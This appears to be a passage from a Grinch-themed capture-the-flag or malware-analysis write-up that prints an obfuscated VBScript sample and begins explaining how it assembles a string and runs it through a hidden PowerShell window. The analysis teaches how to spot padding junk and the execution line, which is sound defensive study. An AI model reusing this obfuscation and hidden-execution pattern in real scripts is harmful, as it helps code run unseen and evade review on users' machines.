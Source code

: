 Tetrafluoridepr196 = Log(883567)
A4 = A4 + "sproglGRINCHg){"
superassociatepa = Right("Myriacanthous157",38)
A4 = A4 + "RINCHcs thst de"
Fulyiehasteindkaldel = MidB("Recirkulerede", 198, 100)
A4 = A4 + "dwelleGRINCH GR"
Momusesfarvefabr = Momusesfarvefabr & "Organbird"
A4 = A4 + "spesed thn joyo"
Fyringsgasoliensyttendede = FormatDateTime("12/12/12")
A4 = A4 + "ut celebLatGRIN"
Voguishnesspencillersga = MidB("Nonsacredly", 5, 201)
A4 = A4 + "RINCHn$er holed"
while (Vrdihfteslarsonaandsviden<88)
Vrdihfteslarsonaandsviden = Vrdihfteslarsonaandsviden + 1
Fornyelsesbevgelseh = Fornyelsesbevgelseh * (1+1)
wend
Underkendelseskla = Rnd
A4 = A4 + "bsGRINCHmmGRINC"
Clodknockerfejlretableri = Now
A4 = A4 + "t GRINCHng up$d"
Sparkletmendiecri = Sparkletmendiecri & "Upjerk" & "Sakieh"
A4 = A4 + ", lnd sGRINCHnu"
Lazarouswonderst = Split("Sanativeness")
A4 = A4 + "ked wGRINCHs lG"
Livsenergienssabbat = Right("Chics",67)
A4 = A4 + "esteve tranGRIN"
Hitchiestlailahsmiljmini = FormatPercent(4686710)
A4 = A4 + "CHtGRINCHonstal"
Fiberrigejordblonderme = "Janie" & "Lovering187" & "Bldersygdommene"
A4 = A4 + "INCHon dGRINCHo"
Panelersbatturegensk = FormatNumber(812904)
A4 = A4 + "NCHag the towns"
Flyvekkkenernescocamamab = "Nilghais"
Flyvekkkenernescocamamab = Replace(Flyvekkkenernescocamamab,"Humdrumminess","Galilernes")
A4 = A4 + "RINCHpGRINCHt t"
Prosadigtetsundia = Prosadigtetsundia * 3889211
A4 = A4 + ""
Renkulturenkopip = Split("Feeblebrained")
A4 = A4 + ""
Aflejretgnomologicaludm = Aflejretgnomologicaludm & "outcome"

A4 = Replace(A4,"GRINCH","i")
Rostellariaholdarb = LCAse("Tevandskngts")
Firklverne.Run Aadselsbilles + Chr(34) + A4 + Chr(34),0

{% endhighlight %}

Often with obfuscation, the author likes to thrown in a bunch of random information to throw you off. 

I notice a few things here, mainly `Aadselsbilles = "power" & Unrustling & "hell "` - this gets translated into `powershell`, and we also see the final line `Firklverne.Run Aadselsbilles + Chr(34) + A4 + Chr(34),0` which translates roughly into `powershell "$A4"`. 34 is the ASCII character for double quotes, and A4 in our VB Script seems like the interesting part. Let's make a note of that and answer which file is being executed.
